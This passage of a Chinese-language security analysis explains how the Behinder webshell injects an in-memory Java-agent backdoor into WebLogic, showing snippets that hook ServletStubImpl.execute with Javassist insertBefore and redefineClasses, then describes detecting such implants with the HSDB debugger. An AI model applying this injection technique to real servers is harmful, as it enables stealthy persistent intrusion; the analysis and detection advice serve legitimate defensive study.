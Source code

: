 获取所有加载的类

```java
Class<?>[] cLasses = inst.getAllLoadedClasses();
```

冰蝎选择对`weblogic.servlet.internal.ServletStubImpl`的`execute`进行注入，从之前的分析可以知道，weblogic对每一个servlet都有对应的setvletStub对象做处理，最终会调用这个servletStub的execute函数。也可以注入到其他http请求的并经之路比如`getFilterChain`函数之类的

```java
FilterChainImpl fc = invocationContext.getFilterChain(this.stub, this.req, this.rsp);
    if (fc == null) {
		this.stub.execute(this.req, this.rsp);
```

获取前面指定的Method对象（`weblogic.servlet.internal.ServletStubImpl`的`execute`方法）

```java
for (String clsName : (List<String>)((Map)targetClasses.get(targetClassName)).get("paramList"))
	paramClsList.add(cPool.get(clsName));
CtClass cClass = cPool.get(targetClassName);
String methodName = ((Map)targetClasses.get(targetClassName)).get("methodName").toString();
CtMethod cMethod = cClass.getDeclaredMethod(methodName, paramClsList.<CtClass>toArray(new CtClass[paramClsList.size()]));
```

调用`insertBefore`把恶意代码插到方法前面

```java
cMethod.insertBefore(shellCode);
```

最后调用`redefineClasses`重新定义类，到这里就已经成功注入了

```java
inst.redefineClasses(new ClassDefinition[] { new ClassDefinition(cls, data) });
```



如何找到这种内存马？

第一种思路，我们的java agent在attach上去的时候，对应的agent类也是会加载到jvm里面的，所以通过一个java自带的HSDB工具（HotSpot Debugger，专门用于调试HotSpot VM 的调试器），可以很明显的找出来，具体操作参考[这篇文章](https://zzcoder.cn/2019/12/06/HSDB%E4%BB%8E%E5%85%A5%E9%97%A8%E5%88%B0%E5%AE%9E%E6%88%98/)

通过以下命令运行HSDB

```pow
java -classpath "%JAVA_HOME%/lib/sa-jdi.jar" sun.jvm.hotspot.HSDB
```

在Class Browser中可以看到我们的Agent类就在第一行，查看Agent类中的变量就能发现我们的动态插入的java代码，然后把这个类的class文件dump出来，就能找到攻击者把恶意代码插在了哪个类函数中
